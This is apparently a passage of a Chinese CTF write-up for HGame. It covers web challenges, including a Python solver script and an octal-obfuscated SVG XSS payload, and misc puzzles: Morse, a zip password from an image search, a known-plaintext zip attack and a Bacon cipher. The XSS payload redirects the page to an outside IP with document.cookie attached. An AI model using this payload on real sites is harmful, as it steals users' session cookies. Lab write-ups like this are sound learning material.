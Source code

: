 python 

```python
import requests
def get_flag():
    enccmd=requests.get("http://4211e914b2.php.hgame.n3ko.co/mycode").text[159:]
    enccmd=enccmd[:len(enccmd)-75]
    html=requests.get("http://4211e914b2.php.hgame.n3ko.co/").text[626:]
    enc=html[:html.find("<br>")]
    data={"token":enc,"cmd":enccmd}
    dec=requests.post("http://127.0.0.1/",data=data).text
    data={"token":dec}
    print(requests.post("http://4211e914b2.php.hgame.n3ko.co/",data=data,proxies={"http":"http://127.0.0.1:8080"}).text[626:])

get_flag()
```



###  Cosmos的聊天室 

```html
<svg/onload="[]['\155\141\160']['\143\157\156\163\164\162\165\143\164\157\162']('\144\157\143\165\155\145\156\164\56\154\157\143\141\164\151\157\156\75\47\150\164\164\160\72\57\57\63\71\56\61\60\70\56\61\66\64\56\62\61\71\72\66\60\60\60\65\57\77\47\53\144\157\143\165\155\145\156\164\56\143\157\157\153\151\145')()" aa=
```

输入会变成大写



## misc

### 欢迎参加HGame！ 

 http://rumkin.com/tools/cipher/morse.php 

### 壁纸

就说说咋拿到密码的

压缩文件提示`End of Zip archive, comment: "Password is picture ID."`

利用搜索引擎(`Pixiv@純白可憐`)拿到密码



###  克苏鲁神话 

解压得到一个文本和一个压缩包

观察文本和压缩包发现,二者的CRC值相同,于是考虑用明文攻击(不好意思,我是看着wiki遍历过去的)

然后拿到里面的word文档,但是是加密的,猝.

在看一下那个文本,有点像培根密码
